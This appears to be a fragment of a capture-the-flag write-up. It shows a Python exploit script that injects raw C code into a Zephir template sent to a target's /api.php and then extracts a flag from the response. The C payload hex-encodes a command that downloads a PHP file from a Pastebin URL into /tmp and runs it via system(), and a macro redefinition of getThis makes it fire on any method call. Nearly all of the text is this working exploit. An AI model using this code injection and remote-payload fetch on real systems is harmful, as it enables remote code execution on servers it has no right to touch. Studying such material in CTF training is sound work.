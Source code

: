 ```python

%{
C_PAYLOAD
}%

function dummy(){
    if true {
        var ch = curl_init(); //"""

# C code to inject
C_PAYLOAD = """
#include <stdlib.h>

void* payload(){
    char buf[] = {
        // curl https://pastebin.com/raw/LA14vSiK
        0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
        // >
        0x20, 0x3e, 0x20,
        // /tmp/payload.php
        0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // ;
        0x3b, 0x20,
        // php /tmp/payload.php
        0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // terminating nullbyte
        0 
    };
    // curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
    system(buf);
    return NULL;
}

#undef getThis
#define getThis payload
"""

# fire the request
result = api_request("/api.php", {"URL": TEMPLATE.replace("C_PAYLOAD", C_PAYLOAD)}).json()
# extract flag from response
print(base64.b64decode(result["message"]).decode().split('"')[3])
```

For this code, we don't even need to write a zephir constructor since a call to any method (like `getURL`) will include `getThis` which will expand into our C payload.
